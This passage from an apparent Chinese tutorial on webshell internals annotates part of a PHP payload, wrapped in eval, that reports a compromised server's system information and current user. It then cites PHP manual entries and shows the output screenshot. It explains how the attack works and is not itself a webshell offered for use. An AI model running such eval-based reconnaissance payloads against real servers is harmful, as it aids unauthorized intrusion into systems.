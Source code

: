 ```php
        $R.="/";
    }
    // 拼接制表位
    $R.="	";
    // 判断posix_getegid方法是否存在，存在调用该方法按用户id返回用户相关信息
    $u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";
    // 如果用户信息不为空，则返回name属性，否则调用get_current_user()方法
    $s=($u)?$u["name"]:@get_current_user();
    // 返回运行 PHP 的系统的有关信息 并拼接
    $R.=php_uname();
    $R.="	{$s}";
    echo $R;
    ;}
catch(Exception $e){
    // 捕获异常
    echo "ERROR://".$e->getMessage();
};
// 运行程序
asoutput();
die();
```

```php
// posix_getpwuid — Return info about a user by user id
posix_getpwuid ( int $uid ) : array
// posix_geteuid — Return the effective user ID of the current process
posix_geteuid ( void ) : int
```

将此代码封装在`eval`函数中,让`eval`函数将此代码当作php代码执行，运行结果如下图所示：

![](webshell原理.assets/webshell_3.png)
